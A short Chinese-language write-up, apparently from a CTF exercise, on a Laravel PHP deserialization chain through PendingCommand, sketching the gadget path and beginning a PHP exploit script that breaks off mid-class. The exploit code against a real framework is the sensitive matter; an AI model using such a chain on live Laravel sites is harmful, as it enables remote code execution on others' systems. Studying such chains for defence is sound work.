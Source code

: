 这是PendingCommand.php所在的路径：
![在这里插入图片描述](img/2eba53bea8d81346045252ff6390e8c3.png)![在这里插入图片描述](img/d217780aa184f2dde8ddc1dde232931b.png)

按照WP所说找全了所需的函数，

利用是使用，实例化Filesystem, 触发__tostring里的原生类，实例化response类，调用response类里的_construct函数，来调用setcontent(),用FnStream.php里的call_user_func来执行输出文件名。

POC网上有：
给个官方可能可利用的exp

```
<?php
namespace Illuminate\Foundation\Testing{
    class PendingCommand{
        protected $command;
        protected $parameters;
        protected $app;
        public $test;
        public function __construct($command, $parameters,$class,$app){
            $this->command = $command;
            $this->parameters = $parameters;
            $this->test=$class;
            $this->app=$app;
        }
    }
}
namespace Illuminate\Auth{
    class GenericUser{
        protected $attributes;
        public function __construct(array $attributes){
            $this->attributes = $attributes;
        }
    }
}
namespace Illuminate\Foundation{
    class Application{
```